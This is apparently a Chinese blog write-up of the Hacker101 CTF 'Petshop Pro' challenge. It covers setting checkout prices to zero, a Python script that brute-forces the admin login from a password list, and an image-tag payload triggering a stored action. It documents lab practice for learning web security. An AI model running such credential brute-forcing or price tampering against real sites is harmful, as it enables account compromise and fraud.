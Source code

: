 ```yaml
---
title: "hacker101 第9关&&第10关"
date: 2019-12-01T11:37:09+08:00
showDate: true
draft: false
tags: ["security","hacker101", "ctf"]
categories: ["security"]
---
```


## 第9关 Petshop Pro

进去逛一逛，看起来是一个买宠物照片的网站？

目测能访问的路径有:

```

GET /
GET /add/0
GET /add/1
GET /cart
POST /checkout  data="cart=xxx"
```

### flag1

试了下`GET /add/0'`,NOT FOUND，没有注入点。

能输入的地方看起来就只有POST那里，burpsuite那里看了下数据格式

![9-1](./9-1.png)

应该是常规的url encode，解码看一下。

![9-2](./9-2.png)

传这么多数据干嘛？试试少几个字段会怎样，发现只有name和price是可用的，而且返回的结果和这个有关。
尝试把price都改成0。第一个flag就出来了。

![9-3](./9-3.png)

### flag2

剩下几个api也没找到什么问题，后来看了下hint。`There must be a way to administer the app`，这是在让我尝试找登录点嘛。

于是我试了下`/login`，果然有登录界面

![9-4](./9-4.png)

试了下注入，弱密码，都没有成功。再看了下hint。`Tools may help you find the entrypoint`，是要工具爆破嘛？

但是因为自己的burpsuite是社区版，爆破只能一个线程，那还不如手动写呢。

```python

# coding: utf-8
import requests
import re

def login(username, password):
    url = "http://34.94.3.143/236507f627/login"
    data = {
        "username": username,
        "password": password
    }
    r = requests.post(url, data=data)
    text = r.text
    if re.search('Invalid username', text):
        return "{} error".format(username), False
    elif re.search('Invalid password', text):
        return "{} error".format(password), False
    else:
        return username, password


if __name__ == '__main__':
    with open("password.txt") as f:
        for line in f:
            username = "rubina" # line.strip()
            password = line.strip()
            res = login(username, password)
            print(res)
            if res[1]:
                break
```

字典从github下载就行了。

这个也是单线程，但是将就能用~先跑username，睡个午觉起来发现跑出来了`username=rubina`

最后碍于效率，还是装了个专业版的burp，开100个线程太爽了。

最后跑出了结果`password=public`

![9-5](./9-5.png)

登录后第二个flag也有了。

![9-6](./9-6.png)

### flag3

登陆之后多了一个`/edit?id=0`页面，分别试了一下xss和注入，都没出flag。
各种尝试无果，
看了下hint，`Bugs don't always appear in a place where the data is entered`。有点像csrf哦。

构造payload`<img src="http://xxx/add/2">`，然后访问`http://xxx/cart`，get it~


![9-7](./9-7.png)


## 第10关 Model E1337 - Rolling Code Lock


暂时跳过